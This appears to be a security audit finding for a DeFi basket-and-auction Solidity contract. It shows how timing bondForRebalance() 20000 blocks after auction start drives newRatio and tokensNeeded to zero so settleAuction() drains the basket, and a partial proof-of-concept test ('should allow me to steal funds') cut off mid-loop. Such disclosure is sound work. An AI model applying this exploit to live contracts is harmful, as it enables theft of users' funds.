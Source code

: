 ```solidity
  for (uint256 i = 0; i < pendingWeights.length; i++) {
      uint256 tokensNeeded = basketAsERC20.totalSupply() * pendingWeights[i] * newRatio / BASE / BASE;
      require(IERC20(pendingTokens[i]).balanceOf(address(basket)) >= tokensNeeded);
  }
```

The attack vector here is to manipulate `tokensNeeded` to be 0. That way we can drain the basket completely without the function reverting.

For that, we manipulate `newRatio` to be 0 then the whole thing will be 0.
`newRatio` is defined as:

```solidity
  uint256 a = factory.auctionMultiplier() * basket.ibRatio();
  uint256 b = (bondBlock - auctionStart) * BASE / factory.auctionDecrement();
  uint256 newRatio = a - b;
```

There's 1 value the attacker controls, `bondBlock`. That value is the block in which the `bondForRebalance()` function was triggered.
So the goal is to get `newRatio` to be 0. With the base settings of the contract:

*   auctionMultiplier == 2
*   ibRatio == 1e18
*   BASE == 1e18
*   auctionDecrement == 10000

`bondBlock` has to be `auctionStart + 20000`. Meaning, the `bondForRebalance()` function has to be triggered exactly 20000 blocks after the action was started. That would be around 3 1/2 days after auction start.

At that point, `newRatio` is 0, and thus `tokensNeeded` is 0. The only thing left to do is to call `settleAuction()` and pass the basket's tokens and balance as the output tokens and weight.

### Proof of Concept

Here's a test implementing the above scenario as a test. You can add it to `Auction.test.js`.:

```js
      it.only("should allow me to steal funds", async() => {
        // start an auction
        let NEW_UNI_WEIGHT = "2400000000000000000";
        let NEW_COMP_WEIGHT = "2000000000000000000";
        let NEW_AAVE_WEIGHT = "400000000000000000";

        await expect(basket.publishNewIndex([UNI.address, COMP.address, AAVE.address], 
            [NEW_UNI_WEIGHT, NEW_COMP_WEIGHT, NEW_AAVE_WEIGHT], 1)).to.be.ok;
        await increaseTime(60 * 60 * 24)
        await increaseTime(60 * 60 * 24)
        await expect(basket.publishNewIndex([UNI.address, COMP.address, AAVE.address], 
          [NEW_UNI_WEIGHT, NEW_COMP_WEIGHT, NEW_AAVE_WEIGHT], 1)).to.be.ok;

        let auctionAddr = await basket.auction();
        let auction = AuctionImpl.attach(auctionAddr);

        ethers.provider.getBlockNumber();
        // increase the block number for `bondBlock - auctionStart` to be 20000.
        // When that's the case, the result of `newRatio` in `settleAuction()` 
        // is `0`. And that means `tokensNeeded` is 0. Which means,
        // we can take out all the tokens we want using the `outputTokens` array
        // without having to worry about basket's balance at the end.
        // The math changes depending on the settings of the factory contract or the
        // Basket contract. But, the gist is that you try to get newRatio to be 0.
        // The only values you can control as a attacker is the bondBlock after the auction
        // was started.
        for (let i = 0; i < 20000; i++) {
```